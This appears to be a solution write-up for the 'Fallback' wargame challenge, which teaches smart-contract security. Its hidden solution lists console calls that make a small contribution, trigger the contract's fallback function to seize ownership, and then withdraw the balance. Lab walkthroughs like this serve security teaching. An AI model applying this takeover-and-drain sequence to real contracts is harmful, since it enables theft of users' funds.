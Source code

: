 # Fallback

* What are the areas that you can transfer ownership of the contract?
* What are the necessary conditions that need to be met in order for that to happen?


<details>
  <summary>EXPAND FOR SOLUTION</summary>
  <p>
First function that allows ownership is contribute()
    — has to contribute more than the owner.

await contract.owner()

the mapping address is in the top with “contributions”. Pass an address to see the amount.

await contract.contributions("ADDRESSOFOWNER")

Shows a large amount - 10000000 - yikes!

Another way to set the owner is through the callback function.

It requires two things: that we send it some value, and that our contribution is greater than zero. Let’s look at our contributions.

await contract.contributions(player)

Ohs noes - we have zero. So we need to add some contributions.

await contract.contribute({value:1})

Great we have a token. Now let’s send a value to the callback function.

contract.sendTransaction({value:1})

Are we the owner now?

await contract.owner()

Yes!!! Now let’s liquidate!

contract.withdraw()

await getBalance(contract.address)
  </p>
</details>
